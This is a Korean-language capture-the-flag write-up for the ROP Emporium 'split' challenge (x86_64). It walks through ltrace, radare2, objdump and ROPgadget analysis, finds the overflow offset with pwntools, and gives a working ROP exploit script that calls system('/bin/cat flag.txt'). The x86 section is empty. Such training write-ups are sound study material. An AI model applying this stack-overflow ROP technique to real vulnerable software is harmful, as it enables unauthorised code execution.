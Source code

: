 # [split](https://ropemporium.com/challenge/split.html)
<br />

**Discription:**
> The elements that allowed you to complete ret2win are still present, they've just been split apart.
Find them and recombine them using a short ROP chain.
<br />
<br />

# x86_64

**Binary Protections:**
```yaml
[*] '/home/kali/pico/split'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```
<br />

해당 문제는 `system("/bin/cat flag.txt")`를 호출하면 풀리는 간단한 문제입니다. 아래 과정을 통해 풀이를 진행하겠습니다.

```yaml
$ ltrace split
strrchr("split", '/')                                                                          = nil
setlocale(LC_ALL, "")                                                                          = "en_US.UTF-8"
bindtextdomain("coreutils", "/usr/share/locale")                                               = "/usr/share/locale"
textdomain("coreutils")                                                                        = "coreutils"
__cxa_atexit(0x5625290abe10, 0, 0x5625290b6008, 0)                                             = 0
getopt_long(1, 0x7ffe0781e6a8, "0123456789C:a:b:del:n:t:ux", 0x5625290b5860, nil)              = -1
strcmp("-", "-")                                                                               = 0
posix_fadvise(0, 0, 0, 2)                                                                      = 0
fstat(0, 0x5625290b6300)                                                                       = 0
getpagesize()                                                                                  = 4096
aligned_alloc(4096, 0x40001, 0x40000, 0x3fc00)                                                 = 0x7f0559721000
read(0, "\n", 262144)                                                                          = 1
...
read(0^C <no return ...>
--- SIGINT (Interrupt) ---
+++ killed by SIGINT +++
```
우선 `ltrace`를 통해 `read()`가 `262144`만큼 읽고, 스택 버퍼오버플로우가 발생하는 것을 알 수 있습니다.

```yaml
$ r2 split
aWARN: Relocs has not been applied. Please use `-e bin.relocs.apply=true` or `-e bin.cache=true` next time
[0x004005b0]> aaa
...
[0x004005b0]> afl
0x00400550    1      6 sym.imp.puts
0x00400560    1      6 sym.imp.system
0x00400570    1      6 sym.imp.printf
0x00400580    1      6 sym.imp.memset
0x00400590    1      6 sym.imp.read
0x004005a0    1      6 sym.imp.setvbuf
0x004005b0    1     42 entry0
0x004005f0    4     37 sym.deregister_tm_clones
0x00400620    4     55 sym.register_tm_clones
0x00400660    3     29 entry.fini0
0x00400690    1      7 entry.init0
0x004006e8    1     90 sym.pwnme
0x00400742    1     17 sym.usefulFunction
0x004007d0    1      2 sym.__libc_csu_fini
0x004007d4    1      9 sym._fini
0x00400760    4    101 sym.__libc_csu_init
0x004005e0    1      2 sym._dl_relocate_static_pie
0x00400697    1     81 main
0x00400528    3     23 sym._init
[0x004005b0]> ii
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x00400550 GLOBAL FUNC       puts
2   0x00400560 GLOBAL FUNC       system
3   0x00400570 GLOBAL FUNC       printf
4   0x00400580 GLOBAL FUNC       memset
5   0x00400590 GLOBAL FUNC       read
6   ---------- GLOBAL FUNC       __libc_start_main
7   ---------- WEAK   NOTYPE     __gmon_start__
8   0x004005a0 GLOBAL FUNC       setvbuf
[0x004005b0]> iz
[Strings]
nth paddr      vaddr      len size section type  string
―――――――――――――――――――――――――――――――――――――――――――――――――――――――
0   0x000007e8 0x004007e8 21  22   .rodata ascii split by ROP Emporium
1   0x000007fe 0x004007fe 7   8    .rodata ascii x86_64\n
2   0x00000806 0x00400806 8   9    .rodata ascii \nExiting
3   0x00000810 0x00400810 43  44   .rodata ascii Contriving a reason to ask user for data...
4   0x0000083f 0x0040083f 10  11   .rodata ascii Thank you!
5   0x0000084a 0x0040084a 7   8    .rodata ascii /bin/ls
6   0x00001060 0x00601060 17  18   .data   ascii /bin/cat flag.txt
```
`radare2`를 통해 바이너리에서 `system()`을 사용하고 있고, `"/bin/cat flag.txt"`의 주소가 `0x00601060`인 것을 알 수 있습니다. 그리고 `pwnme`, `usefulFunction`, `main` 심볼들이 존재하는 것을 알 수 있습니다.

```yaml
$ objdump -d split
...
0000000000400742 <usefulFunction>:
  400742:       55                      push   %rbp
  400743:       48 89 e5                mov    %rsp,%rbp
  400746:       bf 4a 08 40 00          mov    $0x40084a,%edi
  40074b:       e8 10 fe ff ff          call   400560 <system@plt>
  400750:       90                      nop
  400751:       5d                      pop    %rbp
  400752:       c3                      ret
  400753:       66 2e 0f 1f 84 00 00    cs nopw 0x0(%rax,%rax,1)
  40075a:       00 00 00
  40075d:       0f 1f 00                nopl   (%rax)
...
```
문제에서 제공하는 `usefulFunction()`는 `system()`을 호출해줍니다. 하지만 ROP로 `system("/bin/cat flag.txt")`를 만들어 직접 호출을 해줄 것이므로, 바로 호출이 가능한 `0x40074b`를 사용해줍니다.

```yaml
$ ROPgadget --binary split | grep "pop rdi"
0x00000000004007c3 : pop rdi ; ret
```
다음으로 `system()`의 인자인 `/bin/cat flag.txt`를 설정해줘야 하기 때문에 `rdi` 가젯을 확보합니다.

```yaml
$ python3 -q
>>> from pwn import *
>>> p = process("./split")
[+] Starting local process './split': pid 33083
>>> p.send(cyclic(200, n=8))
>>> p.wait()
[*] Process './split' stopped with exit code -11 (SIGSEGV) (pid 33083)
>>> Corefile("./core.33083")
[+] Parsing corefile...: Done
[*] '/home/kali/pico/core.33083'
    Arch:      amd64-64-little
    RIP:       0x400741
    RSP:       0x7ffe67faeab8
    Exe:       '/home/kali/pico/split' (0x400000)
    Fault:     0x6161616161616166
Corefile('/home/kali/pico/core.33083')
>>> cyclic_find(0x6161616161616166, n=8)
40
```
마지막으로 반환주소를 덮으려면, 버퍼와 반환주소 사이의 거리를 알아야 합니다. 위 과정으로 두 주소 간의 거리는 40 입니다. 알아낸 정보를 가지고 공격 코드를 작성할 수 있습니다.

<br />

```python
from pwn import *

context.log_level = "error"
context.arch = "amd64"

e = ELF("./split")
p = e.process()

rdi = 0x00000000004007c3
str = 0x00601060
system = 0x40074b

pay = flat({0x28:rdi}, str, system)

p.send(pay)
p.interactive()
```
```bash
$ python3 test.py
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> Thank you!
ROPE{a_placeholder_32byte_flag!}
split by ROP Emporium
x86_64

Contriving a reason to ask user for data...
> $
```

# x86
**Binary Protections:**
```yaml

```
